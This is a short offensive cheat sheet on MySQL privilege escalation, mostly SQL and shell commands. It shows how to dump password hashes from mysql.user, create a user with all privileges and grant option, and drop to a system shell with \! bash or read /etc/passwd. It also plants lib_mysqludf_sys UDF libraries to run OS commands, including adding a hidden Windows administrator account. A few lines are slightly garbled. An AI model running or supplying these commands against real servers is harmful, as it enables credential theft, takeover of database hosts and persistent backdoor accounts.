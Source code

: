 <h2>Privilege escalation</h2>

<h3>Current Level of access</h3>

```sql
mysql>select user();
mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```

<h3>Access Passwords</h3>

```sql
mysql> use mysql
mysql> select user,password from user;
```

<h3>Create a new user and grant him privileges</h3>

```sql
mysql>create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

<h3>Break into a shell</h3>

```sql
mysql> \! cat /etc/passwd
mysql> \! bash
```

<h3>Privilege Escalation via library</h3>

You can find compiled versions of this libraries in sqlmap: locate `lib_mysqludf_sys.so` and locate `lib_mysqludf_sys.dllInstead` of locate you can also use whereis to search for this libraries inside the host.

Linux

```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out.txt');
```

Windows

```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
Extracting MySQL credentials from the database
SELECT User,Host,Password FROM mysql.user;
SELECT User,Host,authentication_string FROM mysql.user;
mysql -u root --password=<PASSWORD> -e "SELECT User,Host,authentication_string FROM mysql.user;"
```
